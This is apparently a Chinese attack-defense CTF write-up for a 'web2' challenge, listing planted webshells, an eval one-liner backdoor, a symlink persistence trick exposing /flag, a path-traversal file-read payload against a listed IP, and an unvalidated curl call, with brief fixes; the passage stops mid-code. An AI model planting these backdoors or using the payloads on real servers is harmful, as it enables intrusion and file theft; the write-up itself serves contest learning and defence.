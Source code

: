 web1我们队只发现了上诉漏洞,流量记录中也没有其他可疑记录,如果师傅们有其他漏洞,欢迎交流

## web2

### 冰蝎后门

位于`\icon\pww.php`与`pass.php`

利用与修复同web1

### eval后门

在`.\login\index.php`文件57行存在eval后门

```php
<?php @eval($_POST['nono']);?>
```

靠着手速抢先留其他后门,制作软连接后门,`ln -s /flag /var/www/html/.config.php`,不少队一直没发现,利用到了最后.

修复方案:

删除即可.

### 任意文件读取

漏洞位于`img.php`

```php
<?php
$file = $_GET['img'];
$img = file_get_contents('images/icon/'.$file);
//使用图片头输出浏览器
header("Content-Type: image/jpeg;text/html; charset=utf-8");
echo $img;
exit;
```

可以看到`file_get_contents`函数没有任何过滤,用requests或burpsuite发包读取flag.

payload:`http://39.100.119.37:2%s80/img.php?img=../../../../../flag`

修复方案: 

写死$file参数, checkdown也不会检查图片显示正不正确.

### 命令注入

位于`\connect.php`,82行

```php
if (isset($_GET['check'])) {
    $check = $_GET['check'];
    $id = intval($_GET['id']);
    $sql = "SELECT host,port from host where id = $id";
    $res = $helper->execute_dql($sql);
    $row = $res->fetch_assoc();
    $host = $row['host'];
    $port = $row['port'];
    if ($check=='web'){
        $location = $host.':'.$port; // Get the URL from the user.
        $curl = curl_init();
        curl_setopt($curl, CURLOPT_URL, $location); // Not validating the input. Trusting the location variable
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
        $res_web = curl_exec($curl);
        curl_close($curl);

    }
...
```